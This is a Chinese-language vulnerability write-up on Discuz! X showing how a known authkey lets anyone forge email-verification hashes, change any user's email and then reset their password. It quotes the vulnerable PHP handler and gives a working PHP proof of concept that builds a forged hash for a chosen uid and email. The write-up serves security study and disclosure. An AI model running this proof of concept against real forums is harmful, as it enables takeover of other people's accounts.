 Discuz! X authkey 重置任意账户邮箱
==================================

一、漏洞简介
------------

需要得到authkey

二、漏洞影响
------------

三、复现过程
------------

当我们申请修改邮箱的时候，我们会受到一封类似于下面这样的邮件。

![](./resource/Discuz!Xauthkey重置任意账户邮箱/media/rId24.png)

验证链接类似于

    http://www.0-sec.org/dz3.3/home.php?mod=misc&ac=emailcheck&hash=0eb7yY2wtS1q16Zs2%2BtSkR6w5O%2Fx6jdLbu0FnWbegB8ixs2Y6tfcyAnrvz4yPIE7pKzoqawU0ku47y4F

跟入`/source/include/misc/misc_emailcheck.php` 代码如下：

    <?php
    /**
     *      [Discuz!] (C)2001-2099 Comsenz Inc.
     *      This is NOT a freeware, use is subject to license terms
     *
     *      $Id: misc_emailcheck.php 33688 2013-08-02 03:00:15Z nemohou $
     */
    if(!defined('IN_DISCUZ')) {
        exit('Access Denied');
    }
    $uid = 0;
    $email = '';
    $_GET['hash'] = empty($_GET['hash']) ? '' : $_GET['hash'];
    if($_GET['hash']) {
        list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));
        $uid = intval($uid);
    }
    // exit($email);
    if($uid && isemail($email) && $time > TIMESTAMP - 86400) {
        $member = getuserbyuid($uid);
        $setarr = array('email'=>$email, 'emailstatus'=>'1');
        if($_G['member']['freeze'] == 2) {
            $setarr['freeze'] = 0;
        }
        loaducenter();
        $ucresult = uc_user_edit(addslashes($member['username']), '', '', $email, 1);
        if($ucresult == -8) {
            showmessage('email_check_account_invalid', '', array(), array('return' => true));
        } elseif($ucresult == -4) {
            showmessage('profile_email_illegal', '', array(), array('return' => true));
        } elseif($ucresult == -5) {
            showmessage('profile_email_domain_illegal', '', array(), array('return' => true));
        } elseif($ucresult == -6) {
            showmessage('profile_email_duplicate', '', array(), array('return' => true));
        }
        if($_G['setting']['regverify'] == 1 && $member['groupid'] == 8) {
            $membergroup = C::t('common_usergroup')->fetch_by_credits($member['credits']);
            $setarr['groupid'] = $membergroup['groupid'];
        }
        updatecreditbyaction('realemail', $uid);
        C::t('common_member')->update($uid, $setarr);
        C::t('common_member_validate')->delete($uid);
        dsetcookie('newemail', "", -1);
        showmessage('email_check_sucess', 'home.php?mod=spacecp&ac=profile&op=password', array('email' => $email));
    } else {
        showmessage('email_check_error', 'index.php');
    }
    ?>

当hash传入的时候，服务端会调用authcode函数解码获得用户的uid，要修改成的email，时间戳。

    list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));

然后经过一次判断

    if($uid && isemail($email) && $time > TIMESTAMP - 86400) {

这里没有任何额外的判断，在接下来的部分，也仅仅对uid的有效性做了判断，而uid代表这用户的id值，是从1开始自增的。

也就是说，只要authcode函数解开hash值，就能成功的验证并修改邮箱。

这里我们可以直接使用authcode函数来获得hash值

### poc

> 这里需要修改md5(\"authkey\")

    <?php
            //Enter your code here, enjoy!
    function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
        $ckey_length = 4;
        $key = md5($key ? $key : UC_KEY);
        $keya = md5(substr($key, 0, 16));
        $keyb = md5(substr($key, 16, 16));
        $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
        $cryptkey = $keya.md5($keya.$keyc);
        $key_length = strlen($cryptkey);
        $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
        $string_length = strlen($string);
        $result = '';
        $box = range(0, 255);
        $rndkey = array();
        for($i = 0; $i <= 255; $i++) {
            $rndkey[$i] = ord($cryptkey[$i % $key_length]);
        }
        for($j = $i = 0; $i < 256; $i++) {
            $j = ($j + $box[$i] + $rndkey[$i]) % 256;
            $tmp = $box[$i];
            $box[$i] = $box[$j];
            $box[$j] = $tmp;
        }
        for($a = $j = $i = 0; $i < $string_length; $i++) {
            $a = ($a + 1) % 256;
            $j = ($j + $box[$a]) % 256;
            $tmp = $box[$a];
            $box[$a] = $box[$j];
            $box[$j] = $tmp;
            $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
        }
        if($operation == 'DECODE') {
            if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
                return substr($result, 26);
            } else {
                return '';
            }
        } else {
            return $keyc.str_replace('=', '', base64_encode($result));
        }
    }
    echo authcode("3\ttest@success.com\t1503556905", 'ENCODE', md5(substr(md5("5e684ceqNxuCvmoK"), 0, 16)));

访问hash页面，我们可以看到验证邮箱已经被修改了，接下来我们可以直接通过忘记密码来修改当前用户的密码。

![](./resource/Discuz!Xauthkey重置任意账户邮箱/media/rId26.png)

参考链接
--------

> https://lorexxar.cn/2017/08/31/dz-authkey/\#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85
